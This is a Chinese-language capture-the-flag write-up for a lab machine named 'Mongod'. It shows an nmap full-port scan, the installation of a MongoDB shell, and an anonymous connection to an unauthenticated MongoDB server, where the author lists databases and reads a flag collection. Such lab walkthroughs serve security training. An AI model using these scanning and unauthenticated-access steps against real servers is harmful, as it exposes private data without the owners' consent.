


# Mongod

## 前言

从Mongod的名字可以知道今日靶机和数据库有关。具体是什么数据库呢？没错就是 MongoDB 数据库，这是一个面向文档（document）的 [No SQL](https://www.runoob.com/mongodb/nosql.html) 数据库。稍后我们会再提及。

> 靶机上运行着一个 MongoDB 数据库，并且存在未授权访问漏洞，允许用户在未拥有凭证信息的情况下登录数据库。

接下来开始正式的渗透过程。

## 渗透

首先，我们扫描一下靶机开放的端口、服务等。祭出我们的 Nmap 神器，本次实验主要用到以下几个选项：

```bash
-p- ：扫描 0-65535 间的 TCP 端口
-sV ：扫描特定端口上运行着的服务的版本信息
--min-rate ：指明 Nmap 每秒应发送的最小数据包数，包数越大，扫描速度越快
```

使用以下命令扫描目标：

```bash
sudo nmap -p- --min-rate=1000 -sV {target_ip}
```

可以发现靶机上运行着 `MongoDB` 服务，下面简单说说 MongoDB。



### MongoDB 简介

前文提到，MongoDB 是一个面向文档的非关系型数据库。MongoDB 不像传统的使用表和行的关系型数据库，其使用集合 （collection）以及文档（document）。

MongoDB 数据库由多个集合 Collection 组成，每个集合又可包含多个文档 Document：


而每个文档又由一个个的键值对组成，**键值对是 MongoDB 数据库数据的基本单元**。

### 连接 MongoDB 数据库服务器

- 为连接到远程的 MongoDB 服务器，我们需要安装 `mongodb` 工具。

在基于 Debian 的 linux 发行版系统，可以使用以下命令安装 `mongodb`：

1. 利用 curl 下载压缩包

```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
```

2. 利用 tar 解压

```bash
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

3. 进入 mongodb 的 bin 目录

```bash
cd mongodb-linux-x86_64-3.4.7/bin
```

4. 执行 mongo ，匿名连接 MongoDB 服务器

```bash
./mongo mongodb://{target_IP}:27017
```

如下图，成功连接到 MongoDB 服务器：

### mongodb 工具使用

使用如下命令列出 MongoDB 中的**所有数据库**：

```bash
show dbs;
```

之后可以使用 `use` 命令选择某个数据库，并查询该数据库里的信息：

```bash
use sensitive_information;
```

用 `show` 命令列出上述数据库下的所有集合：

```
show collections;
```

发现有一个名为 `flag` 的集合，我们可以使用如下命令输出该集合中的内容：

```bash
db.flag.find().pretty();
db.flag.find() 也可以，加上 pretty() 更美观
```



如上图，成功获取 flag。

